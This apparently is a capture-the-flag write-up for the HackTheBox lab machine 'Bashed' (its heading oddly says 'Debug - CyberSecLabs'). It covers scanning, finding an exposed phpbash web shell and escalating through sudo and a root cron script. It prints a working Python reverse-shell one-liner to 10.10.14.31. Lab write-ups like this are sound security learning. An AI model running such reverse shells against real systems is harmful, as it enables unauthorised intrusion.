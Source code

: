 ```yaml
---
layout: page
title: Bashed - HackTheBox
permalink: /posts/ctf/hackthebox/bashed.html
---
```


# Debug - CyberSecLabs
----


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 10.10.10.68`

![image](https://user-images.githubusercontent.com/50459517/109188821-ef447300-7758-11eb-8b6a-224f7a66cb21.png)

Looks like we only have one port open, lets check out the web server.

![image](https://user-images.githubusercontent.com/50459517/109188858-fa979e80-7758-11eb-8809-71336dcbdabb.png)

phpbash.. interesting.  Looking into this it looks like its an open source project for interacting with the server via a web-shell.  I enumerated for directories using dirsearch to see if I could find the file.

![image](https://user-images.githubusercontent.com/50459517/109188898-071bf700-7759-11eb-97f4-d13a9fa78196.png)

After checking out these directories, I found that the **/dev/** directory has the **phpbash.php** file.

![image](https://user-images.githubusercontent.com/50459517/109188937-100cc880-7759-11eb-876c-7fe736edb734.png)

![image](https://user-images.githubusercontent.com/50459517/109188962-18fd9a00-7759-11eb-8092-23bfa8fc16cf.png)

Looks like it works, now lets try to get a reverse shell connected to our local machine so we can get an interactive shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![image](https://user-images.githubusercontent.com/50459517/109189039-2fa3f100-7759-11eb-8c8a-1445f47165f7.png)

Now that we have an interactive shell, lets copy LinPEAS over and see what we find

![image](https://user-images.githubusercontent.com/50459517/109189066-3894c280-7759-11eb-8578-0aae8c409230.png)

Looks like we can run any command as **scriptmanager** with no password, so lets run **/bin/bash** to get a shell as this user.

![image](https://user-images.githubusercontent.com/50459517/109189106-40ecfd80-7759-11eb-8c56-91a9ae365b3c.png)

Now that we are the **scriptmanager** user, we can enumerate the machine to see if we can escalate to root.  After some digging we find a directory called **scripts** that has the following files.

![image](https://user-images.githubusercontent.com/50459517/109189133-4a766580-7759-11eb-8be0-2e8809e25daa.png)

Looking at the source code of **[test.py](http://test.py)**, I see that it simply opens the file **test.txt** and writes some data in it.  However **test.txt** is owned by root, so even though we are the owner of the script, we need to run this as root to actually write to the file.  However after a few minutes we notice that the **test.txt** file has a new "last modified" time on it, indicating that we have a cron job executing the **test.py** script.

![image](https://user-images.githubusercontent.com/50459517/109189159-55c99100-7759-11eb-99a8-1f0d542d68f2.png)

Since we have write access to this file, we can modify the file to connect to our local machine.  Since this script is being run as root, we should get a shell back as root.

![image](https://user-images.githubusercontent.com/50459517/109189193-5eba6280-7759-11eb-8602-7602e7ae81c5.png)

![image](https://user-images.githubusercontent.com/50459517/109189220-667a0700-7759-11eb-8265-3d81741bd771.png)
